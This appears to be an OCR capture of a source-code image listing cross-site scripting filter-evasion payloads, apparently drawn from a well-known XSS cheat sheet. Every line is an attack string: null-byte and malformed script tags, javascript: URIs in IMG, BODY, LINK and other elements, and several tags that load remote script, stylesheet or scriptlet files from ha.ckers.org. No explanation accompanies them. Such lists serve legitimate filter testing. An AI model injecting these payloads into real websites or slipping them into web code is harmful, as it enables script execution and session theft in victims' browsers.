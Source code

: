 	)
	"
	>

	perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out

	perl -e 'print "<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>";' > out

	<IMG SRC=" &#14;  javascript:alert('XSS');">

	<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>

	<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

	<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>

	<<SCRIPT>alert("XSS");//<</SCRIPT>

	<SCRIPT SRC=http://ha.ckers.org/xss.js?<B>

	<SCRIPT SRC=//ha.ckers.org/.j>

	<IMG SRC="javascript:alert('XSS')"

	<iframe src=http://ha.ckers.org/scriptlet.html <

	<SCRIPT>a=/XSS/
	alert(a.source)</SCRIPT>

	\";alert('XSS');//

	</TITLE><SCRIPT>alert("XSS");</SCRIPT>

	<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

	<BODY BACKGROUND="javascript:alert('XSS')">

	<BODY ONLOAD=alert('XSS')>

	<IMG DYNSRC="javascript:alert('XSS')">

	<IMG LOWSRC="javascript:alert('XSS')">

	<BGSOUND SRC="javascript:alert('XSS');">

	<BR SIZE="&{alert('XSS')}">

	<LAYER SRC="http://ha.ckers.org/scriptlet.html"></LAYER>

	<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

	<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">

	<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>

	<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">

	<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>

	<XSS STYLE="behavior: url(xss.htc);">
